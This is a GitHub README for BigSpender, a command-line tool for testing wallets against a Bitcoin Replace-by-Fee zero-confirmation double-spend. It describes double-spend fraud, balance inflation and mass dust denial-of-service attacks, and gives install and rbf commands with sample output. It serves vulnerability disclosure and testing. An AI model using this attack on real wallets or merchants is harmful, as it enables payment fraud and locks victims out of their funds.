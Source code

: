 # BigSpender
A tool for checking the BigSpender vulnerability in Bitcoin wallets.<br>
This repository gathers a set of scripts for double spending at zero-confirmations, using Bitcoin's [Replace-by-Fee](https://github.com/bitcoin/bips/blob/master/bip-0125.mediawiki).<br> 
For some vulnerable wallets, it allows a malicious sender to perform the following attacks:
1. **Basic double-spend**: Attackers can exploit this problem by sending a victim a transaction of some value but with minimal fees (will be pending for a long time) and asking for some goods or services in return, then canceling the transaction immediately. Since the vulnerable wallets do not reflect cancellations and still show an incorrect balance, the victim will see their wallet’s balance has increased and believe the transaction to be complete. Therefore, the victim may provide the attacker with the goods or services without actually receiving any payment. 
Note: Unlike other double spend schemes, this scheme is easy to use, and totally deterministic (no race conditions). It requires almost no financial investment on behalf of the attacker (besides negligible fees) and does not require any additional preconditions.

2. **Amplified attack**: The problem can be further amplified by an attacker. A series of such replaceable transactions can be created to artificially inflate a victim’s balance and expand the attack. For example, attackers with only $10 possessions can increase a balance by $1K, by sending a series of 100 transactions of $10, each cancelling the prior transaction.

3. **Denial of Service**: Even if a wallet owner is not fooled by this attack, they cannot “send all” their holdings as the presented balance is now higher than the actual balance. When they try to send all, it fails. This fact also disables other kinds of sending attempts (e.g. sending only a fraction of the wallet's balance) if the wallet’s coin selection algorithm chooses funds from this nonexistent transaction.<br>
Attackers can do a mass “BigSpender” DoS by sending a tiny amount (“dust”) to many users of a vulnerable wallet and cancel it (so it does not require a lot of capital). The consent of victims is not required, and they are now unable to use their funds.<br>

It was also found that in some wallets __recovery is hard__ - even after uninstalling and reinstalling the wallet software, restoring from the same seed results with the same false balance and inability to send. 

## Usage

1. Install:
```
$ git clone https://github.com/KZen-networks/big-spender
$ cd ./big-spender
$ chmod +x index
$ yarn install
```

2. Set environment variable for the private key.<br>
It should have at least one UTXO of a sufficient balance (0.001 BTC should be enough, testnet supported).<br>
If you do not have such private key already, follow short instructions [here](set-private-key.md) instead.
```
$ export PRIVATE_KEY=<32 bytes hex>
```

3. Use the CLI tool:
```
$ ./index --help
Usage: index [options] [command]

Options:
  -h, --help                    display help for command

Commands:
  address|a [options]           Generate a random Bitcoin address
  rbf [options]                 Send N transactions: each replaces the previous one with a higher fee. Last one goes back to sender.
  listen|l [options] <address>  Listen for changes in the transactions history of the given address
  signing-address|sa [options]  Get the address of the signing private key
  help [command]                display help for command
```

## Example
Use 2 shells.
1. The first shell will simulate the victim's wallet. Generate a random address (for every CLI method, use mainnet by appending `-n mainnet`):
```
$ ./index address
tb1qtdcxk5x8yqa2phx2xpevhvtv4eyg2ngslmq0ga
```
Then, listen for history changes (incoming/outgoing transactions activity) on this address:
```
$ ./index listen tb1qtdcxk5x8yqa2phx2xpevhvtv4eyg2ngslmq0ga
Listening for changes...
```
2. The second shell will simulate the attacker. Remember to first set the `PRIVATE_KEY` environment variable.<br>
Then, use the Replace-by-Fee method to create K transactions (by default K = 2).<br> 
The first (K - 1) transactions will send to the address we've just created, and the last one will go back to the sender.
```
$ ./index rbf --toAddress=tb1qpqrjep77dn9asqqx5e6rzntdx9egu7ml3tggad
broadcasting #0...
txid #0: 6853984d159dfca63957bf04ebef3a0d1c9d7adf1fabfa8b1e1d242db8faaa79
broadcasting #1 back to the sender...
txid #1: e6d8bcceb33af3de5d478715364c44642ce61a45ca259921b759d52bf08ebbf0
```
3. Go back to the first shell, and see the changes:
```
----------
history changed!
historyTxs = [ { height: 0,
    tx_hash:
     '6853984d159dfca63957bf04ebef3a0d1c9d7adf1fabfa8b1e1d242db8faaa79' } ]
----------
history changed!
historyTxs = []
```

Example for using the tool to verify the vulnerability does not apply (ZenGo wallet):
<p align="center">
 <img src="https://raw.githubusercontent.com/KZen-networks/big-spender/master/demo.gif">
</p>

